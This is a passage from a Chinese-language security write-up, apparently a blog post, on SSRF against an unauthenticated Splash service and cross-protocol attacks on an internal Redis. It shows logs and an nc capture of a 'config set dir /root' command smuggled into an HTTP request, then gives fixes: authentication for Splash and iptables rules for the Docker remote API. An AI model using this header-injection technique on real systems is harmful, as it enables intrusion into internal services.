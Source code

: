 运行后 redis 发出了警告 (高版本的新功能)

```shell
24089:M 11 Jul 23:29:07.730 - Accepted 172.17.0.2:56886
24089:M 11 Jul 23:29:07.730 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
```

但是执行了

```
172.16.10.74:6379> config get dir
1) "dir"
2) "/root"
```

后来又测试了一下 post body，发现 body 还没发出去，连接就被强制断开了，所以无法利用

这里用 nc 来看一下发送的数据包

```shell
root@test:/home/user/Desktop# nc -vv -l -p 5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from [172.17.0.2] port 5555 [tcp/*] accepted (family 2, sport 38384)
GET / HTTP/1.1
config set dir /root
: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) splash Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 172.16.10.74:5555
```

可以看到  `config set dir /root`，说明可以利用

其他的话，因为支持post，也可以结合一些内网系统进行利用，这里就不细说了

# 0x 04 修复方案

对于splash，看了下文档，没有提到认证说明，应该是应用本身就没有这个功能，所以得自己加认证，临时方案可以用 basic 认证，彻底修复的话还是得自己修改代码，加上认证功能

这里的 docker remote api，应该是因为旧版本的 swarm 开放的，根据 [文档](https://docs.docker.com/v1.11/swarm/install-manual/) 中 step 3，每个 node 都会开放 2375 或者 2376 端口，通过 iptables 来限制的话，需要配置 client node 的端口只允许 manager 访问，manager 的端口需要加白名单












